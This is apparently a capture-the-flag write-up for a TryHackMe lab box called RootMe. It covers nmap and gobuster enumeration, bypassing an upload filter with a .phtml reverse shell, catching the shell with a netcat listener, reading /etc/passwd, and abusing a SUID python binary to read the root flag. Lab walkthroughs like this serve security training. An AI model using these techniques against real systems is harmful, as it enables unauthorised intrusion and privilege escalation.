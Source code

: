 Written by: Jackie Mann
Alias: whiteshd0w

Enumerated the box as normal. You can answer all the questions in task 2 from our enumeration.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 14:14 CDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating Ping Scan at 14:14
Scanning rootme.thm (10.10.202.81) [4 ports]
Completed Ping Scan at 14:14, 0.34s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:14
Scanning rootme.thm (10.10.202.81) [1000 ports]
Discovered open port 22/tcp on 10.10.202.81
Discovered open port 80/tcp on 10.10.202.81
Increasing send delay for 10.10.202.81 from 0 to 5 due to 36 out of 118 dropped probes since last increase.
Completed SYN Stealth Scan at 14:14, 14.88s elapsed (1000 total ports)
Initiating Service scan at 14:14
Scanning 2 services on rootme.thm (10.10.202.81)
Completed Service scan at 14:14, 6.43s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.202.81.
Initiating NSE at 14:14
Completed NSE at 14:14, 7.11s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.94s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Nmap scan report for rootme.thm (10.10.202.81)
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Initiating NSE at 14:14
Completed NSE at 14:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.25 seconds
           Raw packets sent: 1092 (48.024KB) | Rcvd: 1859 (214.384KB)
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://rootme.thm/
[+] Threads      : 10
[+] Wordlist     : directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,php,txt,jpg
[+] Timeout      : 10s
=====================================================
2020/09/14 13:52:58 Starting gobuster
=====================================================
/index.php (Status: 200)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)

```

I then went into the ```/panel``` directory of the website and found an upload form. I then uploaded a simple php reverse shell, but with the extension of .phtml as the site would not let me upload a .php file.

I issued a ```nc -lnvp 1234``` on my machine and clicked on the link to the reverse shell and was greeted with a shell as user www-data. ***NOTE: You can use any free port on your system, I just was lazy... :) ***

```
nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.202.81 35830
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:17:34 up 28 min,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We were placed in the / directory so we needed to know where home was for www-data

```
cat /etc/passwd
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

So, we change into /var/www and see the user.txt flag

```
cd /var/www
ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 Aug  4 17:54 .
drwxr-xr-x 14 root     root     4096 Aug  4 15:08 ..
-rw-------  1 www-data www-data  129 Aug  4 17:54 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4 17:19 html
-rw-r--r--  1 www-data www-data   21 Aug  4 17:30 user.txt
cat user.txt
THM{***_***_*_*****}
```
Now we need to figure out how to get the root.txt flag. Looking for the SUID binaries we see that our favorite scripting language has one set:
```
find / -user root -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python   <-----
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Using GTFObins we see a way that we can access files that we normally wouldn't be able to due to permission restrictions. 

```
python -c 'print(open("/root/root.txt").read())'  
THM{*********_**********}
```
We now have our root flag!